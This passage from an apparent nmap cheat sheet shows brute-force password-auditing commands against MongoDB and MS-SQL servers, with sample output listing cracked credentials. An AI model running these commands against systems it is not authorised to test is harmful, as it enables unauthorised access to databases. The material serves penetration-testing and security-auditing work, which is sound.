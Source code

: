      |PORT      STATE SERVICE
     |51010/tcp open  unknown
     | mmouse-brute:
     |   Accounts
     |     vanilla - Valid credentials
     |   Statistics
     |_    Performed 1199 guesses in 23 seconds, average tps: 47




## MongoDB - Brute-Force
_ Performs Brute-Force password auditing against the MongoDB database_
     
     root@hostname: ~/ # nmap -p 27017 192.168.1.12 --script mongodb-brute

     |PORT      STATE SERVICE
     |27017/tcp open  mongodb
     | mongodb-brute:
     |   Accounts
     |     root:Password1 - Valid credentials
     |   Statistics
     |_    Performed 3542 guesses in 9 seconds, average tps: 393





## MS-SQL - Brute-Force
_Performs password guessing against Microsoft SQL Server (ms-sql)_ Works best in conjunction with the broadcast-ms-sql-discover script_
     
     root@hostname: ~/ # nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=customuser.txt,passdb=custompass.txt 192.168.1.12
     root@hostname: ~/ # nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.12

     |PORT     STATE SERVICE REASON
     | ms-sql-brute:
     |   [192.168.100.128\TEST]
     |     No credentials found
     |     Warnings:
     |       sa: AccountLockedOut
     |   [192.168.100.128\PROD]
     |     Credentials found:
     |       webshop_reader:secret => Login Success
     |       testuser:secret1234 => PasswordMustChange
     |_      lordvader:secret1234 => Login Success
